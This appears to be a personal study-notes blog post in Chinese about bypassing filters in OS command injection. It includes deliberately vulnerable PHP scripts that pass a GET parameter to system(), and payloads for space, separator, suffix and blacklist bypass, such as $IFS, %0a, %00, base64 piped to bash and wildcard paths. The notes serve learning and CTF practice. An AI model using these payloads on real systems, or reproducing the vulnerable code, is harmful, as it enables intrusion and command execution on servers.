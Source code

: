 ```yaml
---
layout: post
title: flask-ssti注入绕过
categories: [web]
tags: [web]
fullview: false
comments: true
---
```


[https://www.jianshu.com/p/5e505e3d8075](https://www.jianshu.com/p/5e505e3d8075)  

[http://www.4hou.com/reverse/5643.html](http://www.4hou.com/reverse/5643.html)  

**cmd1.php**  

```
<?php
$cmd=$_GET['cmd'];
echo "执行的语句:";
echo $cmd;
echo "<br>执行结果:";
system($cmd);
?>


```  

首先随便试试?cmd=ls，正常显示。  
  
## 1 空格的过滤   

1.1 $IFS  
>     ?cmd=cat$IFSkey  
  

1.2 >或者<>  
  
>     ?cmd=cat>key 
>     ?cmd=cat<>key  
    
1.3  %09(php环境下) 
>     ?cmd=cat%09key     

## 2 多条命令执行，且有前缀 ##  
  
有时候会出现这种代码    

**cmd2.php**  

```
<?php
$cmd=$_GET['cmd'];
echo "执行的语句:";
$var='curl '.$cmd;
echo $var;
echo "<br>执行结果:";
system($var);
?>
```  

可以把它理解为curl在线使用吧。?cmd=www.baidu.com,结果如下图  

![](https://i.imgur.com/ENKPav0.png)  

直接打ls等系统命令就会出错，因为执行的命令前边始终有个curl。  

2.1 分号;  
>     ?cmd=www.baidu.com;ls
>     值得注意的是ls执行的内容会在网页最下边才能看到。  

2.2 &,&&,|,||  
>     这几个指令有区别,懒得写了，直接截图  

![](https://i.imgur.com/LYHwy1A.png)  

2.3 换行符%0a(php环境)
>     这个怎么个用法呢，先看这条?cmd=%0als  
>     发现是可以正常执行ls的，那么curl呢？
>     换行符让curl孤单的成为一条语句，ls成为一条孤独的语句，所以就绕过了curl后边加网址的限制。  

## 3 存在后缀需要消除后边的影响   
**cmd3.php**
```
<?php
$cmd=$_GET['cmd'];
echo "执行的语句:";
$var='curl www.'.$cmd.".com";
echo $var;
echo "<br>执行结果:";
//system($cmd);
system($var);
?>

```  

这次把后边也堵上了，所以要用到类似于sql注入中#的截断作用的字符。  

3.1 %00(需要php环境)  
>     ?cmd=;ls%00  
>     正常执行ls，原来命令时ls.com，加入%00后，.com就没了 

3.2 %20%23
>     ?cmd=;ls%20%23  

## 4. 黑名单绕过  
  
4.1 拼接  

>     ?cmd=a=c;b=at;c=key;$a$b $c

4.2  base64编码
>     ?cmd=ls
>     ?cmd=echo "bHM="|base64 -d|bash  

4.3 单双引号
>     ?cmd=cat key
>     ?cmd=ca""t k''ey  

4.4 反斜杠  

>     ?cmd=cat key
>     ?cmd=c\a\t k\e\y  

4.5  通配符* ?
>     一个?代表一个字符，*代表若干字符。  
>     其实早就有通配符绕过英文数字的限制提权了。  
>     ?cmd=/bin/cat key
>     ?cmd=/???/??? ??? 
>     我也不知道他到底执行的什么命令，不过肯定有/bin/cat key这一条 
>     内容很多，最好是结合字母  /bi?/ca? ?ey  

![](https://i.imgur.com/YiWcmSO.png)  

4.6 绕过ip中的.，虽然不知道有啥用，先记下来。    


[http://www.msxindl.com/tools/ip/ip_num.asp](http://www.msxindl.com/tools/ip/ip_num.asp)  

4.7没看，顺手抄下来，看win下干嘛。。。  

![](https://i.imgur.com/DEYIyNg.png)  

4.8 无回显，还没看，看到整理下来，顺便也学一下。    

4.9 突破长度限制  

## 5.构造字符 利用expr   

这个其实是黑名单绕过的，但是我觉得很妙，就把它单独拿出来说了。  
 可以从文件中或者环境变量获取某些字符
>     可以用export查看一些环境变量，而$pwd这个第一个字符一定是/  
>     expr substr $PWD 1 1(输出为)
>     export可以查看变量  
>     如果过滤了一下字符，可以冲这些变量中拼凑出来  

## 6.直接截图 ##
![](https://i.imgur.com/421kVKd.png)   
